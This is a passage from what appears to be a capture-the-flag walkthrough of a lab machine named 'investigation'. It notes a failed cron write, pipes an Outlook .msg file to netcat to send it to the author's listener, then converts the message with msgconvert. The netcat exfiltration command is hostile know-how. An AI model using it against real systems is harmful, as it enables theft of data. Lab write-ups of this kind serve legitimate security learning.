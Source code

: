 

So when the `cron` tries to write to it, it fails:



    www-data@investigation:/usr/local/investigation$ date >> /usr/local/investigation/analysed_log
    bash: /usr/local/investigation/analysed_log: Operation not permitted



Because the commands are joined with `&&`, once the first one fails, it
stops, and the cleanup is broken as well.

I'll exfil the `.msg` file with `nc`, starting a listener on my machine,
and then sending the file back:



    www-data@investigation:/usr/local/investigation$ cat Windows\ Event\ Logs\ for\ Analysis.msg | nc 10.10.14.6 443



It arrives at my machine:



    oxdf@hacky$ nc -lnvp 443 > 'Windows Event Logs for Analysis.msg'
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.197 42746



I'll double check that the MD5 hashes of each match.

### Event Log Analysis

#### Extract Message Attachment

`.msg` files are Outlook messages. Without a copy of Outlook handy, I'll
use `msgconvert` (installed with
`sudo apt install libemail-outlook-message-perl`) to convert it to
`mbox` format:



    oxdf@hacky$ msgconvert Windows\ Event\ Logs\ for\ Analysis.msg --mbox emails.mbox



This writes the message into a mailbox in the `emails.mbox` file. I'll
open it with `mutt -f emails.mbox`. When it asks about creating a `Mail`
file, I'll select `no`, and it opens the mailbox with a single email:
